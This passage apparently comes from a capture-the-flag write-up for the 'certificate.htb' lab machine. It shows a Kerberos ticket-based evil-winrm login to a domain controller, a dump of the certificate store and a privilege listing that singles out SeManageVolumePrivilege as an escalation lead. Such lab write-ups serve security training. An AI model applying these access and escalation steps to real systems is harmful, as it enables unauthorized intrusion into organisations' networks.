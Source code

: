 Login to the server
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ export KRB5CCNAME=$(pwd)/ryan.k.ccache 

┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad evil-winrm -i dc01.certificate.htb -r certificate.htb

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami
certificate\ryan.k
```

Checking the machine's certificate store we find the **root certification authority template** but we can't do anything since we're `Missing stored keyset`
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store my
my "Personal"
# ...
================ Certificate 3 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
CertUtil: -store command completed successfully.
```

However, `ryan.k` has an interesting privilege 
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
```
